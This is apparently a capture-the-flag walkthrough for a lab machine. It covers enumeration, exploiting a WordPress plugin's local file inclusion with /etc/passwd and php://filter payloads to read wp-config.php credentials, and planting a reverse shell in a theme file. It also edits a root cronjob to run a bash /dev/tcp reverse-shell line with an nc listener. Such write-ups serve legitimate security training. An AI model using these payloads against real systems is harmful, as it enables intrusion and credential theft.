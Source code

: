 #  All_in_One Walkthrough


### __First Stage : Enumeration

So lets do a nmap scan for open ports

>nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn \<ip>

```
# Nmap 7.91 scan initiated Thu Dec 10 16:31:38 2020 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn 10.10.110.123
Warning: 10.10.110.123 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.110.123
Host is up, received user-set (0.17s latency).
Scanned at 2020-12-10 16:31:38 IST for 1810s
Not shown: 64787 closed ports, 745 filtered ports
Reason: 64787 conn-refused and 745 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 10 17:01:48 2020 -- 1 IP address (1 host up) scanned in 1809.99 seconds
```

So ports that are open 

* 21
* 22
* 80

So lets visit the website on port 80.

![](images/website1.png)





Since we a website lets do a gobuster scan.


We get this.

![](images/gobuster.png)


The directories are 

* wordpress
* hackathons

Lets visit wordpress


![](images/wordpress.png)


Now lets visit hackathons


![](images/hackathon.png)


if we go to the source code of this page we find 

![](images/sourcecode.png)



Maybe it is encoded in vigenere lets fire up [cyberchef](https://gchq.github.io/CyberChef/) . We get a password but we dont know where it is used .


![](images/cyberchef.png)


Now we can use wpscan to scan the wordpress site

> wpscan --url http://\<ip>

We get interesting plugins.

![](images/plugins.png)


Now after searching in gooogle we get that both are vulnerable plugins . 

Lets try exploiting mail-masta plugin.


###  __Second Stage : Initial Access__

The mail-masta plugin has __[LFI](https://www.exploit-db.com/exploits/40290)__ which we can use to exploit.


We can see the **/etc/passwd** file  using

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Now we want the username and password which can be found in wp-config.php . If we use put directly in the parameter pl we wont get , we need to use php filter to get the config file . Google *"php filter lfi"* you will get results. 

I am using base64 filter .

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

We can get the file in base64 encoded format.

![](images/lfi2.png)


If we decode it we get the username and password.

![](images/password.png)



So lets login and get reverse shell.


![](images/revshell.png)


Use this command to access the edited 404.php file

```BASH
curl http://<ip>/wordpress/wp-content/themes/twentytwenty/404.php 
```

Now we get a shell.


![](images/www-data.png)


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

### __Third Stage : www-data to user__

We run linpeas to see if we can get attack vectors or loopholes.

We see a **cronjob** running by __root__

![](images/linpeas.png)


Then we see port __3306__ open which is __mysql server__

![](images/mysql.png)


And we can find **credentials** for the mysql db


![](images/sqlcreds.png)


So if we go to the /home/elyana directory we see

![](images/hint.png)


So if we search using **find** command 

>find / -type f -user elyana 2>>/dev/null

![](images/elyanapass.png)


And we can see that private.txt has password in it.

Now we can ssh into the machine and get the user flag


![](images/user.png)



### __Fourth Stage : user to root__


Now if we try sudo -l we get this

![](images/sudo.png)


When we were www-data we saw that a cronjob was running , hence we can see if we can use it.

Let's go and cat the script.

![](images/cronjob.png)


Let's edit the script to get a reverse shell

>bash -i >& /dev/tcp/\<vpn_ip>/4444 0>&1


![](images/edited.png)





And start a listener using
>nc -lvnp 4444


Now we get root shell.


![](images/root.png)




